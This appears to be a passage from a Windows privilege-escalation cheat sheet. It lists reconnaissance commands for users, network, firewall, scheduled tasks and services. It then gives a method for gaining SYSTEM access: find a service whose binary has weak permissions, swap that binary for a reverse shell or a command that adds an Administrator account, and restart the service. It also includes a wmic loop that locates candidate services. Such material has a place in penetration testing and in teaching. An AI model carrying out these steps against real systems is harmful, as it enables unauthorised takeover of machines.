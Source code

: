 $ echo %username%

\> getuid

List all users

$ net users

Information about a user

$ net users Administrator

Network information

$ ipconfig /all & route print & arp -a

Environment

$ set

List open connections

$ netstat -aton

Firewall information

$ netsh firewall show state

$ netsh firewall show config

List scheduled tasks

$ schtasks /query /fo LIST /v

List windows services

$ net start

$ wmic service list brief

$ tasklist /SVC

EoP 1: Incorrect permissions in services

A service running as Administrator/SYSTEM with incorrect file permissions might allow EoP. You can replace the binary, restart the service and get system.

We are interested in services where permissions are: \*\*BUILTIN\\Users\*\* with \*\*(F)\*\* or \*\*(C)\*\* or \*\*(M)\*\* for our group. More info about permissions:

https://msdn.microsoft.com/en-us/library/bb727008.aspx

Common exploitation payloads involve: Replacing the affecting binary with a reverse shell or a command that creates a new user and adds it to the Administrator group. Replace the affected service with your payload and and restart the service running:

$ wmic service NAMEOFSERVICE call startservice

net stop [service name] && net start [service name]

$ sc start/stop serviceName

The following commands will print the affected services:

$ for /f "tokens=2 delims='='" %a in ('wmic service list full^|find /i "pathname"^|find /i /v "system32"') do @echo %a >> c:\windows\temp\permissions.txt
